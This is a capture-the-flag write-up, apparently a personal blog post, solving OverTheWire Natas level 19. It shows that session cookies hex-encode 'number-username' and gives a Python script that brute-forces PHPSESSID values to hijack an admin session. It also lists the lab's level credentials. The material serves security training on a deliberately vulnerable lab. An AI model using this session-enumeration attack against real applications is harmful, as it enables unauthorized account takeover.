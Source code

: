 ```yaml
---
layout: post
title:  "Natas Level 19 → Level 20"
date: 2017-07-11
author: "Harsh Chawla"
tags: Overthewire Natas
---
```

<pre><h3><b>Level 19
Username : natas19
Password : 4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs
URL      : http://natas19.natas.labs.overthewire.org</b></h3></pre>

### Solution

To solve this level, we first log into the natas19 application using the credentials provided above.

Let’s try a few combinations of credentials.

| Username/Password  | Cookie Value |
| ------------- | ------------- |
| admin/1234  | 3333332d61646d696e  |
| admi/1234 | 3333332d61646d69  |
| adm/1234  | 3333332d61646d  |
| ad/1234 | 3333332d6164  |
| a/1234  | 3333332d61  |

As we can see from the above pairs of credentials and cookie values, we can see that the password length depends on the length and the character of the username.

The last 10 characters of the cookie value are ASCII values of usernames (a – 61, d – 64, m – 6d, i – 69, n – 6e). The character right before the usernames ASCII value is the ASCII value for –. The characters before the 2D symbol seem to be the ASCII values for numbers (1 – 30 and 9 – 39). The application prints **This page uses mostly the same code as the previous level, but session IDs are no longer sequential…**.

The numbers might reach a maximum value of 650 like the [Level 18](https://hchawla.github.io/2017/07/10/NatasL1819.html). If that holds true for this time, we will have to make a limited number of attempts to find the cookie which holds session[‘admin’] set as 1.

```python
import urllib2
targetURL='http://natas19.natas.labs.overthewire.org/'
REQ=urllib2.Request(targetURL, headers={"Authorization" : "Basic bmF0YXMxOTo0SXdJcmVrY3VabEE5T3NqT2tvVXR3VTZsaG9rQ1BZcw=="})
debug=0
passString = "You are an admin."
try:
    contents = urllib2.urlopen(REQ).read()
    if debug:
        print contents
except urllib2.HTTPError as e:
    print e.code
    print e.read()

def findPassword():
    global targetURL
    for i in range(641):
        REQ=urllib2.Request(targetURL, headers={"Authorization" : "Basic bmF0YXMxOTo0SXdJcmVrY3VabEE5T3NqT2tvVXR3VTZsaG9rQ1BZcw==", "Cookie" : "PHPSESSID="+(str(i)+"-admin").encode("hex")})
        contents = urllib2.urlopen(REQ).read() 
        if debug: 
            print "Attempted Cookie value : " + "PHPSESSID = "+(str(i)+"-admin").encode("hex")
        if contents.find(passString)!=-1:
            print contents
            break

findPassword()
```

By using the above code which tries various combination of ASCII encoded cookie strings containing **-admin**, we can find out the password for the next level.

<pre><h3><b>Level 20
Username : natas20
Password : eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF
URL      : http://natas20.natas.labs.overthewire.org</b></h3></pre>
